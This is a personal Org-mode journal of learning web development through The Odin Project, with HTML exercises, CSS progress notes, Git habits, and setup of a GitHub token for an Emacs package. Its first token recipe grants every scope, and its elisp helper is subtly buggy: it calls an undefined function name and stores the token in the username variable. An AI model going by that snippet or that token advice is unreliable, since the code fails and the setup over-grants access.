Check out the links for each exercise, with all the action [[https://github.com/rafaelbeirigo/odin-css-exercises][here]].

** 02-class-id-selectors
Just finished second CSS Assignment, and added a checkmark to the [[https://github.com/rafaelbeirigo/odin-css-exercises/tree/main][main README of the tasks]].
This one I had to fix a minor detail after finishing it, and then looking at the recommended solution.
I didn't catch one shared property among elements, which could make code legibility and maintenance much easier.
Learned another one!

Now, out to busking, and later some more!

** 03-grouping-selectors
Back from busking, very tired.
But ready to code!

Used my free time to read ahead the [[https://github.com/rafaelbeirigo/odin-css-exercises/tree/main/foundations/intro-to-css/03-grouping-selectors][next assignment]].
Let's get to it.
Done!
After 48 minutes.

For this exercise, I just went full LP, finished the assignment, and /only then/ commited the chunks.
It was much easier to get things flowing, but a little bit messier when dealing with text edits.
But I believe this is a nice approach.

** 04-chaining-selectors
This one was the quickest so far!
Again, LP, and then commit helped.

** 05-descendant-combinator
This was even quicker: 8 minutes!

And with it, I finished the first branch, =intro-to-css=!

** Seinfeld Checkmark
[[file:images/2025-10-02_seinfeld.jpeg]]

* [2025-10-01 Wed]
Today started with some final polishing on the [[https://github.com/rafaelbeirigo/odin-recipes][Recipes Project]].

Writing the commits before coding was a success.
Very comforting to code when you know there's a light at the end of the tunnel, and no rework will be necessary (well, maybe /less/ work...)

Just found out that the [[https://html.spec.whatwg.org/dev][HTML Specification has a version for developers]].
Did some reading, nice stuff.
But potentially a rabbit hole.
Will focus on [[https://www.theodinproject.com/][Odin]].

Now, I start learning CSS!

The action is happening in my [[https://github.com/rafaelbeirigo/odin-css-exercises/blob/main/foundations/intro-to-css/01-css-methods/README.org][forked repo of the CSS Exercises]].

** Notes from today
- I'm clocking my work, and this is helping to keep me grounded, and also learn realistic timetable expectations;
- CSS is fun
- Literate Programming is really helpful to organize the work, especially so when I must leave the work half-finished, and come back later: it's faster to hit the ground running with LP

** Seinfeld Checkmark

[[file:images/2025-10-01_seinfeld.jpeg]]

* [2025-09-30 Tue]
Back at it!

This new project felt too simple.
I kinda underestimated it and couldn't do something I wanted: a clean commit history from the beginning.
I'll try another approach today: write the commit messages /before/ coding.
Let's see how that goes.
(Still working on the [[https://github.com/rafaelbeirigo/odin-recipes][project Recipes from Odin]]).

Edit: You can see the final version of the page [[https://rafaelbeirigo.github.io/odin-recipes/][here]] (three recipes inspired on Harry Potter's books).

** Systems Thinking
Just heard about it this week.
I believe I applied it today.
I love it!

** Results: Writing the commits before coding
/Very/ helpful, much better!
Knowing that each task had a purpose, and that we would get to the final product was very empowering and calming.
I'd call it a success!

** Seinfeld Checkmark

[[file:images/2025-09-30_seinfeld.jpeg]]

* [2025-09-29 Mon]
Back to HTML!

We're approaching a project on Odin!

Starting with Git.

Just learned about Commit Messages.

Next is a project, and then we start CSS.

** Digression on Git

I have been thinking about yesterday's work, with lots of refactoring, while porting to LP.
It was difficult to keep a clean commit history.

I believe the best way to accomplish it is by planning beforehand.
I have some ideas, that I will experiment with in this next project.

** Project: Recipes

Check it out [[https://github.com/rafaelbeirigo/odin-recipes][here]].

** Seinfeld Checkmark

Hoje foi um dia difícil, mas consegui o X!

[[file:images/2025-09-29_seinfeld.jpeg]]

* [2025-09-28 Sun]
Thought of doing some elisp coding this sunday.
I have this [[https://github.com/rafaelbeirigo/ma-github][project that creates Github repositories directly from inside Emacs]].
As they say: "Life is better when you don't have to leave your editor".

Last time I touched it was 3 years ago.

Today I thought of checking it out, seeing how it stands, and maybe hacking it a bit.
So, for this coding, all the action will happen  [[https://github.com/rafaelbeirigo/ma-github/commits/dev/][commit history for the dev branch of the repository of that project]].

This is how it went.

** Create a Github token
*** First try: Generate a classic token with all the powers
**** Generate
I just checked out if I had the repo in my machine, and it was there.

Then I followed the repo's instructions to run it.
You need an *access token*, and I had to create one.
The proccess was cryptic:
- You have to choose the powers of your token;
- I wanted the power to *create a repository*;
- I couldn't find that option there.


After getting scared by the implications of them insisting on an /expiration date/ for the token, I wanted to create the least powerful, but still useful token.
Invested a dozen minutes trying to read throught the docs, and then realized *I was going down a rabbit hole*.

Decided on just creating the most powerful token possible, with a very short expiration date---seven days (/The Ring/, anyone?).
The steps were:

1. Open the [[https://github.com/settings/tokens/new][page to generate a /Classic/ token]]
2. Put on *Note*: ma-github
3. On *Expiration*: 7 days
4. On *Select scopes*: select everything
5. Click *Generate token*
6. Copy the generated token and paste it on a safe place

**** Access from inside Emacs
Here I Needed some help from ChatGPT:

#+begin_quote
i want to have my Github token accessed by Emacs
How should I do it?
#+end_quote

Then ChatGPT inspired me to change gears.

*** Second try (ChatGPT): Generate a fine-grained token with minimal powers
**** Generate
1. Go to the [[https://github.com/settings/personal-access-tokens][Github page to generate a fine-grained token]]
2. Click *Generate new token*
3. *Token name*: ma-github
4. *Resource owner*: the Github account where the repositories will be created
5. *Expiration*: 30 days
6. *Repository access*: All repositories
7. *Permissions*
   1. Click the *+* button on the upper-right corner
   2. Select *Administration*
   3. Click outside of the selection thingy to make it disappear
   4. On the new item *Administration*, change from *Read-only* to *Read and write*
8. Click *Generate token*
9. Click *Generate token* again, on the pop-up window
10. Copy the token
11. Paste it somewhere safe

**** Access from inside Emacs

***** Set up *authinfo*

1. Follow this [[https://www.masteringemacs.org/article/keeping-secrets-in-emacs-gnupg-auth-sources][instructions to create =~/.authinfo.gpg~]]

   1. Create a key

      1. Open a terminal and run the command

         #+begin_src shell :noweb no
         gpg --gen-key
         #+end_src

      2. Inform your real name and then your email

      3. It will generate a key in =~/.gnupg=

2. Create (or edit) the file =~/.authinfo.gpg= in Emacs. Use this format (one line per entry):

   #+begin_example
   machine api.github.com login YOUR_GITHUB_USERNAME password <YOUR_TOKEN>
   #+end_example

3. Change the permissions of the file to make it more secure

   #+begin_src shell :noweb no
   chmod 600 ~/.authinfo.gpg
   #+end_src

***** Fetch the token using *authinfo*

This code snippet uses the token created before to give =ma-github= access to Github.
It

1. Asks for a Github username, and then

2. Sets the environment variables needed by =ma-github=.

#+begin_src elisp :noweb no
;; ensure auth-source uses the default backends (it does by default)
;; Here is a tiny helper that reads the token and (optionally) sets env var:

(require 'auth-source)

(defun ma-github-token-from-authinfo (&optional username)
  "Find a GitHub token from auth-source for api.github.com and return the secret string."
  (let* ((host "api.github.com")
         (user (or username user-login-name))
         (entry (car (auth-source-search :host host :user user :max 1))))
    (when entry
      (let ((secret (plist-get entry :secret)))
        (if (functionp secret) (funcall secret) secret)))))

;; optional: make token available to Emacs subprocesses (e.g. `curl` from Emacs)
(let* ((user (read-string "Github username: "))
       (tok (my/github-token-from-authinfo user)))
  (when user
    (setenv "MA_GITHUB_USER" tok))
  (when tok
    (setenv "MA_GITHUB_TOKEN" tok)))
#+end_src

Now let's try and create a repo with ma-github.

#+begin_quote
M-x ma-github-create
#+end_quote

And here is the [[https://github.com/rafaelbeirigo/hello-ma-github][Github repository created using ma-github]]!

Now let's integrate the *auth-source* functionality.

Timeline (I tried, but too distracting!):

1. [2025-09-28 Sun 13:13] Breaking the code down in LP blocks.

2. [2025-09-28 Sun 13:13] info on defun optional arguments

3. [...] All the action is on the [[https://github.com/rafaelbeirigo/ma-github/commits/dev/][commit history for the dev branch]].

4. [2025-09-28 Sun 21:02] Ported to LP and tested: (ma-github-create NAME)

I tried my best to be organized, but it's messy.
Next step is to reorganize the commits.
Not for /functionality/, but /learning/.

** Seinfeld Checkmark

[[file:images/2025-09-28_seinfeld.jpeg]]

* [2025-09-27 Sat]
Starting later today.
Overslept.

Let's do this!

** Lists
#+begin_quote
To get some practice using lists, create a new HTML document and create the following lists:
1. An unordered shopping list of your favorite foods
2. An ordered list of todo’s you need to get done today
3. An unordered list of places you’d like to visit someday
4. An ordered list of your all time top 5 favorite video games or movies
#+end_quote

Create the structure for main HTML doc:

[[file:odin/assignments/foundations/lists/index.html][odin/assignments/foundations/lists/index.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>My first page from Odin</title>
  </head>

  <body>
    <<food>>
    <<todos>>
    <<places>>
    <<games>>
  </body>
</html>
#+end_src

#+begin_quote
1. An unordered shopping list of your favorite foods
#+end_quote

~<<food>> +≡~

#+begin_src html :noweb-ref food :noweb no
<h1>My favorite foods</h1>
<ul>
  <li>Lasagna</li>
  <li>Pork ribs</li>
  <li>Avocado with lemon</li>
  <li>Oatmeal</li>
  <li>Warm bread with (real) butter</li>
</ul>
#+end_src

#+begin_quote
2. An ordered list of todo’s you need to get done today
#+end_quote

~<<todos>> +≡~

#+begin_src html :noweb-ref todos :noweb no
<h1>Todos for Todays</h1>
<ol>
  <li>Code a minimum of 1h</li>
  <li>Exercise and stretch</li>
  <li>Busking</li>
  <li>Play with dogs</li>
  <li>RPG with ChatGPT</li>
</ol>
#+end_src

#+begin_quote
3. An unordered list of places you’d like to visit someday
#+end_quote

~<<places>> +≡~

#+begin_src html :noweb-ref places :noweb no
<h1>Places I want to visit</h1>
<ul>
  <li>Paris</li>
  <li>Japan</li>
  <li>Portugal</li>
  <li>Germany</li>
  <li>Canada</li>
</ul>
#+end_src

#+begin_quote
4. An ordered list of your all time top 5 favorite video games or movies
#+end_quote

~<<games>> +≡~

#+begin_src html :noweb-ref games :noweb no
<h1>My favorite games of all time</h1>
<ol>
  <li>Zelda (Ocarina)</li>
  <li>Pokémon Blue/R./Y.</li>
  <li>Metal Slug</li>
  <li>Super Mario World</li>
  <li>Harvest Moon (NES)</li>
</ol>
#+end_src

** [2025-09-27 Sat 11:40] Links and Images
*** Links
:PROPERTIES:
:header-args:html: :session *links-and-images*
:END:
#+begin_quote
1. Create a new directory named odin-links-and-images.
#+end_quote

#+begin_src bash :noweb no
mkdir ./odin/assignments/foundations/odin-links-and-images
#+end_src

#+RESULTS:

#+begin_quote
2. Within that directory, create a new file named index.html.
3. Open the file in VS Code and fill in the usual HTML boilerplate.
#+end_quote

[[file:odin/assignments/foundations/odin-links-and-images/index.html][odin/assignments/foundations/odin-links-and-images/index.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>My first page from Odin</title>
  </head>

  <body>
    <<body Content odin-links-and-images>>
  </body>
</html>
#+end_src

#+begin_quote
4. Finally, add the following h1 to the body:

<h1>Homepage</h1>
#+end_quote

~<<body Content odin-links-and-images>> +≡~

#+begin_src html :noweb-ref body Content odin-links-and-images :noweb no
<h1>Homepage</h1>
#+end_src

[2025-09-27 Sat 11:57] Pausing for lunch.

[2025-09-27 Sat 17:57] Coming back, after busking.

The Web is made out of links.
Let's add our first one.
We need to add an *anchor* element, and give it some attributes.
We'll leave a placeholder for the attributes.

~<<body Content odin-links-and-images>> +≡~

#+begin_src html :noweb-ref body Content odin-links-and-images :noweb-seb nil :noweb no
<a
  <<attributes for Odin about page href>>
  >About the Odin Project.</a>
#+end_src

The first attribute contains the /link/ itself, and is called *href*.

~<<attributes for Odin about page href>> +≡~

#+begin_src html :noweb-ref attributes for Odin about page href :noweb no
href="https://www.theodinproject.com/about"
#+end_src

The link now would open on the same tab.
Let's open in a new one, using the attribute *target*.

~<<attributes for Odin about page href>> +≡~

#+begin_src html :noweb-ref attributes for Odin about page href :noweb no
target="_blank"
#+end_src

Now we add some security measures.
This new attribute and value prevents some dangers when linking to another page.
Possible attacks include phishing and tabnabbing.

~<<attributes for Odin about page href>> +≡~

#+begin_src html :noweb-ref attributes for Odin about page href :noweb no
rel="noopener noreferrer"
#+end_src

**** Relative links

Create a page on our own server.

*NOTE:* the =pages/= was added later in this assignment.

[[file:odin/assignments/foundations/odin-links-and-images/about.html][odin/assignments/foundations/odin-links-and-images/pages/about.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>Odin Links and Images</title>
  </head>

  <body>
    <h1>About Page</h1>
    <<le Charles>>
  </body>
</html>
#+end_src

Add a /relative/ link to it on the main page.

~<<body Content odin-links-and-images>> +≡~

#+begin_src html :noweb-ref body Content odin-links-and-images :noweb no
<a href="pages/about.html">About</a>
#+end_src

Let's organize it: add a folder for all the other pages besides =index.html=.

#+begin_src shell :dir ~/dev/webdev-study/odin/assignments/foundations/odin-links-and-images/ :noweb no
mkdir pages
#+end_src

#+RESULTS:

And move =about.html= there.

#+begin_src shell :dir ~/dev/webdev-study/odin/assignments/foundations/odin-links-and-images/ :noweb no
mv about.html pages
#+end_src

#+RESULTS:

*** Images
:PROPERTIES:
:header-args: :dir ~/dev/webdev-study/odin/assignments/foundations/odin-links-and-images/
:END:

Assignment.

#+begin_quote
1. Create a new directory named images within the odin-links-and-images project.
#+end_quote

#+begin_src shell :noweb no
mkdir images
#+end_src

#+RESULTS:

#+begin_quote
2. Next, download our practice image and move it into the images directory we just created.
3. Rename the image to dog.jpg.
#+end_quote

#+begin_src shell :noweb no
wget --output-document=images/dog.jpg https://unsplash.com/photos/Mv9hjnEUHR4/download?force=true&w=640
#+end_src

#+RESULTS:

Add the image to the home page, and the About one (using relative path).
Both will have some attributes that are the same.
Let's give them a placeholder.

~<<body Content odin-links-and-images>> +≡~

#+begin_src html :noweb-ref body Content odin-links-and-images :noweb no
<img src="./images/dog.jpg"
<<dog pic attributes>>
  >
#+end_src

Now add the pic to the About page, using a relative path to the parent folder.

~<<le Charles>> +≡~

#+begin_src html :noweb-ref le Charles :noweb no
<img src="../images/dog.jpg"
<<dog pic attributes>>
  >
#+end_src

Add the alternative text.

~<<dog pic attributes>> +≡~

#+begin_src html :noweb-ref dog pic attributes :noweb no
alt="A black dog (pug) with a gray wool blanket."
#+end_src

**** Image size attributes
Now the size attributes.

~<<dog pic attributes>> +≡~

#+begin_src html :noweb-ref dog pic attributes :noweb no
width="604" height="806"
#+end_src

*** [2025-09-27 Sat 19:37] Assignment on [[https://internetingishard.netlify.app/html-and-css/links-and-images/][Interneting]]
:PROPERTIES:
:header-args:
:END:

[[file:odin/assignments/foundations/interneting-links-and-images/links.html][odin/assignments/foundations/interneting-links-and-images/links.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>
<html lang="en">
  <head>
    <title>Links</title>
    <meta charset="UTF-8">
  </head>
  <body>
    <h1>Links</h1>
    <p>This particular page is about links! There are three kinds of links:</p>

    <ul>
      <<links>>
    </ul>
  </body>
</html>
#+end_src

[[file:odin/assignments/foundations/interneting-links-and-images/images.html][odin/assignments/foundations/interneting-links-and-images/images.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>
<html lang="en">
  <head>
    <title>Images</title>
    <meta charset="UTF-8">
  </head>
  <body>
    <h1>Images</h1>
    <p>This page covers common image formats, but you may also be looking for
      <a href='links.html'>links</a> and
      <a href='misc/extras.html'>useful extras</a>.
    </p>
    <<images>>
  </body>
</html>
#+end_src

[[file:odin/assignments/foundations/interneting-links-and-images/misc/extras.html][odin/assignments/foundations/interneting-links-and-images/misc/extras.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>
<html lang="en">
  <head>
    <title>Extras</title>
    <meta charset="UTF-8">
  </head>
  <body>
    <h1>Extras</h1>
    <p>This page is about miscellaneous HTML things,
      but you may also be interested in
      <a href='../links.html'>links</a> or
      <a href='../images.html'>images</a>.
    </p>
    <h2>Character Sets</h2>
    <p>You can use UTF-8 to count in Turkish:</p>
    <ol>
      <li>bir</li>
      <li>iki</li>
      <li>üç</li>
      <li>dört</li>
      <li>beş</li>
    </ol>
    <<Reserved Characters>>
    <<Curly Quotes>>
  </body>
</html>
#+end_src

Unzip images.

#+begin_src shell :dir odin/assignments/foundations/interneting-links-and-images/ :noweb no
unzip images-4149f7.zip
rm images-4149f7.zip
#+end_src

#+RESULTS:
| Archive:   | images-4149f7.zip |
| inflating: | -4149f7.zip       |

Absolute links.

~<<links>> +≡~

#+begin_src html :noweb-ref links :noweb no
<li>Absolute links, like to
  <a href='https://developer.mozilla.org/en-US/docs/Web/HTML'
    target='_blank'>Mozilla
    Developer Network</a>,
  which is a very good resource for web developers.
</li>
#+end_src

Relative Links.

~<<links>> +≡~

#+begin_src html :noweb-ref links :noweb no
<li>Relative links, like to our <a href='misc/extras.html'>extras page</a>.
</li>
#+end_src

~<<links>> +≡~

#+begin_src html :noweb-ref links :noweb no
<!-- This won't work for our local HTML files -->
<li>Root-relative links, like to the
  <a href='/'>home page</a>
  of our website, but those aren't useful to us right now.
</li>
#+end_src

Add the images.
First a JPG, good for *pictures* (large color palettes).

~<<images>> +≡~

#+begin_src html :noweb-ref images :noweb no
<h2>JPGs</h2>
<p>JPG images are good for photos.</p>
<img src='images/mochi.jpg' width='75'
<<alt jpg>>
  >
#+end_src

Then a GIF, for *animations*, (short color palettes, crude transparency).

~<<images>> +≡~

#+begin_src html :noweb-ref images :noweb no
<h2>GIFs</h2>
<p>GIFs are good for animations.</p>
<img src='images/mochi.gif' width='75'
<<alt gif>>
  >
#+end_src

Now a PNG, good transparency, large color palletes, but bigger than JPG.
Useful for small images that need good transparency, like icons and logos.

~<<images>> +≡~

#+begin_src html :noweb-ref images :noweb no
<h2>PNGs</h2>
<p>PNGs are good for icons and logos.</p>
<img src='images/mochi.png' width='75'
<<alt png>>
  >
#+end_src

Finally the SVG, /vector/ based (as opposed to /pixel/-): scales without loss of quality.
Use them instead of PNGs whenever possible.

~<<images>> +≡~

#+begin_src html :noweb-ref images :noweb no
<h2>SVGs</h2>
<p>SVGs are <em>amazing</em>. Use them wherever you can.</p>
<img src='images/mochi.svg' width='75'
<<alt svg>>
  >
#+end_src

~<<alt jpg>> +≡~

#+begin_src html :noweb-ref alt jpg :noweb no
alt='A mochi ball in a bubble'
#+end_src

~<<alt gif>> +≡~

#+begin_src html :noweb-ref alt gif :noweb no
alt='A dancing mochi ball'
#+end_src

~<<alt png>> +≡~

#+begin_src html :noweb-ref alt png :noweb no
alt='A mochi ball'
#+end_src

~<<alt svg>> +≡~

#+begin_src html :noweb-ref alt svg :noweb no
alt='A mochi ball with Bézier handles'
#+end_src

~<<Curly Quotes>> +≡~

#+begin_src html :noweb-ref Curly Quotes :noweb no
<p>If you&rsquo;re into &ldquo;web typography,&rdquo; you&rsquo;ll also find
   yourself using curly quotes quite a bit.
</p>
#+end_src

**** Reserved Characters
~<<Reserved Characters>> +≡~

#+begin_src html :noweb-ref Reserved Characters :noweb no
<h2>HTML Entities</h2>
<p> There are three reserved characters in HTML:
  <strong>&lt;</strong> <strong>&gt;</strong> and <strong>&amp;</strong>.
  You should always use HTML entities for these three characters.
</p>
#+end_src

** Seinfeld Checkmark
[[file:images/2025-09-27_seinfeld.jpeg]]

* [2025-09-26 Fri]
** Feel like snowballing.
Was drifting and rabbit-holling, as per usual
Checking out the [[https://www.theodinproject.com/dashboard][Odin Project]], thought it was cool they also develop /character/.
Grit, resilience, and the rollercoaster to mastery were eye-openers to me.

Asked ChatGPT for help there.
Got realistic market analysis, criticism about main goal, specific roadmap with projects, and milestones.

Started applying the Seinfeld checkmarks.
I want to code a minimum of 1 hour every day.
Almost procrastinated until I bought a cool sheet with the squares, but ended up doing it by hand.

[[file:images/2025-09-26_seinfeld.jpeg]]

I really like those sites that allow you to code online.
Did 3 min of Exercism, elisp.
But then felt guilty, because I was derailing from the reading materials from Odin.
I want to code in other languages, besides JS.
I'll make sure to include them.
I want it to be also fun and enjoyable :)

Decided to turn this into a journal for accountability.
A bit of afraid this will derail me (happened in the past), but more confident on my resilience and emotional regulation skills this time.
Let's see.

Reading a lot of the initial material from Odin.
Decided on the Foundations.
Gonna follow this one---and *not* derail!
Need to feel secure about this.
But have to be careful about rabbit holes.

Personally, I tend to try to become a "specialist" on every detail.
Many times I don't get past the first stages of the learning process.
Journaling helps me a lot here.

Just opened a new issue on Odin's page.
I want to start collaborating.
It's a really easy one, but it's a start.

Just found out I goofed-up: the /real/ issue was my eagerness...
The issue is non-existant: I misread the text...
Well, one good opportunity to learn about this current personality trait!

Fitst session of the day ended.
Could finish all the initial readings and setup stuff.

Next: HTML!

** Odin recommended a site that has some JS.
Let's see if I remember it.
It's the code to sum two numbers.
It's a bit more complicated, because involves accessing the DOM.
Let's simplify it.
Just sum the contents of two variables, and assign it to another variable.

#+begin_src js :noweb no
function sum (a, b) {
    let total = a + b;
    return total;
}
#+end_src

#+begin_quote
function NAME (ARGS) { STATEMENT; ... }
#+end_quote

And it returns with =return=.

Node.js is used to run JS in the server.

HTML: the page has *content*, which is enclosed in *tags*, forming *elements*.

An HTML tag is the markup language entity used to define elements with the content that will be shown on the page.

The element has
1. Opening tag;
2. Content;
3. Closing tag.


Void elements
- Don't have a closing tag; and
- Have no content.


We're coding, baby!

[[file:html-boilerplate/index.html][html-boilerplate/index.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>
<html lang="en">
  <<head Block>>

  <<body Block>>
</html>
#+end_src

The =head= contains metadata and rendering instructions.
*No page content* here.
Always the first element inside =<html>=.

~<head Block> +≡~

#+begin_src html :noweb-ref head Block :noweb no
<head>
  <<charset>>
  <<title>>
</head>
#+end_src

Let's make sure all glyphs show correctly.

~<<charset>> +≡~

#+begin_src html :noweb-ref charset :noweb no
<meta charset="UTF-8">
#+end_src

Now the title.

~<<title>> +≡~

#+begin_src html :noweb-ref title :noweb no
<title>My first page from Odin</title>
#+end_src

~<<body Block>> +≡~

#+begin_src html :noweb-ref body Block :noweb no
<body>
  <<body Contents>>
</body>
#+end_src

Now add this to Emacs =web-mode=.

#+begin_src elisp :noweb no
(add-to-list 'web-mode-snippets
               '("my-odin-html-boilerplate"
                 "<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>My first page from Odin</title>
  </head>

  <body>
  </body>
</html>
"))
#+end_src

~<<body Contents>> +≡~

#+begin_src html :noweb-ref body Contents :noweb no
<h1>Hello, World!</h1>
#+end_src

And W3 validate, baby!

I did some coding in HTML, and some debugging in Emacs.  Either Org or =noweb= were misbehaving.
Didn't know which though---I just restarted Emacs, and everything went back to normal.
Could apply the steps recommended by Odin for analyzing the problem, and it helped.

** 1h Coding, Hello World, HTML Boilerplate
:PROPERTIES:
:header-args: :session hello world
:END:
End of the day, after busking.
Kinda desperate that I didn't code today's 1h.
But there's plenty of time.
Thought of doing some elisp, but wanna focus on JS.

Let's try Exercism.
Can't really do the exercises without knowing the language, and don't think grinding on Exercism is a good use of my time.

Gonna go back to Odin, even if it is more /theory/ now.
There's hopefully some coding even now in the beginning.
If not, I'll reserve some time later and code elisp.

** Working with Text
*** Create a blog post
#+begin_quote
Create a plain blog article page which uses different headings, uses paragraphs, and has some text in the paragraphs bolded and italicized.
You can use Lorem Ipsum to generate dummy text, in place of real text as you build your sites.
#+end_quote

[[file:odin/assignments/foundations/working-with-text/index.html][odin/assignments/foundations/working-with-text/index.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>Lorem ipsum</title>
  </head>

  <body>
    <h1>Phasellus neque orci, porta a, aliquet quis, semper a, massa</h1>
    <p>Aliquam erat volutpat.  Nunc eleifend <em>leo vitae magna</em>.  In id erat non orci commodo lobortis.  Proin neque massa, cursus ut, gravida ut, lobortis eget, lacus.  Sed diam.  Praesent fermentum tempor tellus.  Nullam tempus.  Mauris ac felis vel velit tristique imperdiet.  Donec at <strong>peed</strong>.  Etiam vel neque nec dui dignissim bibendum.  Vivamus id enim.  Phasellus neque orci, porta a, aliquet quis, semper a, massa.  Phasellus purus.  Pellentesque tristique imperdiet tortor.  Nam euismod <strong>tellus id erat</strong>.</p>

    <h2>Donec hendrerit tempor tellus</h2>
    <p>Pellentesque dapibus suscipit ligula.  Donec posuere augue in quam.  Etiam vel tortor sodales tellus ultricies commodo.  Suspendisse potenti.  Aenean in sem ac leo mollis blandit.  Donec neque quam, dignissim in, mollis nec, sagittis eu, wisi.  Phasellus lacus.  Etiam laoreet quam sed arcu.  Phasellus at dui in ligula mollis ultricies.  Integer placerat tristique nisl.  Praesent augue.  Fusce commodo.  Vestibulum convallis, lorem a tempus semper, dui dui euismod elit, vitae placerat urna tortor vitae lacus.  Nullam libero mauris, consequat quis, varius et, dictum id, arcu.  Mauris mollis tincidunt felis.  Aliquam feugiat tellus ut neque.  Nulla facilisis, risus a rhoncus fermentum, tellus tellus lacinia purus, et dictum nunc justo sit amet elit.</p>

    <h3>Aliquam posuere</h3>
    <p>Nullam eu ante vel est convallis dignissim.  Fusce suscipit, wisi nec facilisis facilisis, est dui fermentum leo, quis tempor ligula erat quis odio.  Nunc porta vulputate tellus.  Nunc rutrum turpis sed pede.  Sed bibendum.  Aliquam posuere.  Nunc aliquet, augue nec adipiscing interdum, lacus tellus malesuada massa, quis varius mi purus non odio.  Pellentesque condimentum, magna ut suscipit hendrerit, ipsum augue ornare nulla, non luctus diam neque sit amet urna.  Curabitur vulputate vestibulum lorem.  Fusce sagittis, libero non molestie mollis, magna orci ultrices dolor, at vulputate neque nulla lacinia eros.  Sed id ligula quis est convallis tempor.  Curabitur lacinia pulvinar nibh.  Nam a sapien.</p>

    <h3>Fusce suscipit, wisi nec facilisis facilisis, est dui fermentum leo, quis tempor ligula erat quis odio</h3>
    <p>Pellentesque dapibus suscipit ligula.  Donec posuere augue in quam.  Etiam vel tortor sodales tellus ultricies commodo.  Suspendisse potenti.  Aenean in sem ac leo mollis blandit.  Donec neque quam, dignissim in, mollis nec, sagittis eu, wisi.  Phasellus lacus.  Etiam laoreet quam sed arcu.  Phasellus at dui in ligula mollis ultricies.  Integer placerat tristique nisl.  Praesent augue.  Fusce commodo.  Vestibulum convallis, lorem a tempus semper, dui dui euismod elit, vitae placerat urna tortor vitae lacus.  Nullam libero mauris, consequat quis, varius et, dictum id, arcu.  Mauris mollis tincidunt felis.  Aliquam feugiat tellus ut neque.  Nulla facilisis, risus a rhoncus fermentum, tellus tellus lacinia purus, et dictum nunc justo sit amet elit.</p>

    <h2>Mauris mollis tincidunt felis</h2>
    <p>Nullam eu ante vel est convallis dignissim.  Fusce suscipit, wisi nec facilisis facilisis, est dui fermentum leo, quis tempor ligula erat quis odio.  Nunc porta vulputate tellus.  Nunc rutrum turpis sed pede.  Sed bibendum.  Aliquam posuere.  Nunc aliquet, augue nec adipiscing interdum, lacus tellus malesuada massa, quis varius mi purus non odio.  Pellentesque condimentum, magna ut suscipit hendrerit, ipsum augue ornare nulla, non luctus diam neque sit amet urna.  Curabitur vulputate vestibulum lorem.  Fusce sagittis, libero non molestie mollis, magna orci ultrices dolor, at vulputate neque nulla lacinia eros.  Sed id ligula quis est convallis tempor.  Curabitur lacinia pulvinar nibh.  Nam a sapien.</p>

    <p>Lorem ipsum dolor sit amet, consectetuer adipiscing elit.  Donec hendrerit tempor tellus.  Donec pretium posuere tellus.  Proin quam nisl, tincidunt et, mattis eget, convallis nec, purus.  Cum sociis natoque penatibus et magnis dis parturient montes, nascetur ridiculus mus.  Nulla posuere.  Donec vitae dolor.  Nullam tristique diam non turpis.  Cras placerat accumsan nulla.  Nullam rutrum.  Nam vestibulum accumsan nisl.</p>

    <h3>Lorem ipsum dolor sit amet, consectetuer adipiscing eli</h3>
    <p>Pellentesque dapibus suscipit ligula.  Donec posuere augue in quam.  Etiam vel tortor sodales tellus ultricies commodo.  Suspendisse potenti.  Aenean in sem ac leo mollis blandit.  Donec neque quam, dignissim in, mollis nec, sagittis eu, wisi.  Phasellus lacus.  Etiam laoreet quam sed arcu.  Phasellus at dui in ligula mollis ultricies.  Integer placerat tristique nisl.  Praesent augue.  Fusce commodo.  Vestibulum convallis, lorem a tempus semper, dui dui euismod elit, vitae placerat urna tortor vitae lacus.  Nullam libero mauris, consequat quis, varius et, dictum id, arcu.  Mauris mollis tincidunt felis.  Aliquam feugiat tellus ut neque.  Nulla facilisis, risus a rhoncus fermentum, tellus tellus lacinia purus, et dictum nunc justo sit amet elit.</p>

    <p>Lorem ipsum dolor sit amet, consectetuer adipiscing elit.  Donec hendrerit tempor tellus.  Donec pretium posuere tellus.  Proin quam nisl, tincidunt et, mattis eget, convallis nec, purus.  Cum sociis natoque penatibus et magnis dis parturient montes, nascetur ridiculus mus.  Nulla posuere.  Donec vitae dolor.  Nullam tristique diam non turpis.  Cras placerat accumsan nulla.  Nullam rutrum.  Nam vestibulum accumsan nisl.</p>

    <p>Pellentesque dapibus suscipit ligula.  Donec posuere augue in quam.  Etiam vel tortor sodales tellus ultricies commodo.  Suspendisse potenti.  Aenean in sem ac leo mollis blandit.  Donec neque quam, dignissim in, mollis nec, sagittis eu, wisi.  Phasellus lacus.  Etiam laoreet quam sed arcu.  Phasellus at dui in ligula mollis ultricies.  Integer placerat tristique nisl.  Praesent augue.  Fusce commodo.  Vestibulum convallis, lorem a tempus semper, dui dui euismod elit, vitae placerat urna tortor vitae lacus.  Nullam libero mauris, consequat quis, varius et, dictum id, arcu.  Mauris mollis tincidunt felis.  Aliquam feugiat tellus ut neque.  Nulla facilisis, risus a rhoncus fermentum, tellus tellus lacinia purus, et dictum nunc justo sit amet elit.</p>
  </body>
</html>

#+end_src

** First Seinfeld checkmark!
And this coding session warranted me my first one Seinfeld checkmark!

[[file:images/2025-09-26_seinfeld_checked.jpeg]]

* [2025-09-24 Wed]
So, we're learning Web Dev.
Well, at least /I/ am!

Let's make it easier and more fun with Literate Programming in Org Mode.

Starting from the fundamentals.
Web pages are all about navigating through content.
To make things easier, we have:
- HTML, for /structure/;
- CSS, for /style/;
- Javascript, for /logic/.


A minimal html page [[https://html.spec.whatwg.org/multipage/syntax.html?utm_source=chatgpt.com#writing][must have]]:

#+begin_src html :noweb no
<!DOCTYPE html>
<html>
</html>
#+end_src

Here:
- ~<!DOCTYPE html>~ is the /Document Type Declaration/; it tells the browser the specifications that the page follows.
- ~<html>~ and ~</html>~ enclose the page itself.

The fundamental element of a web page is... well, an =element=.
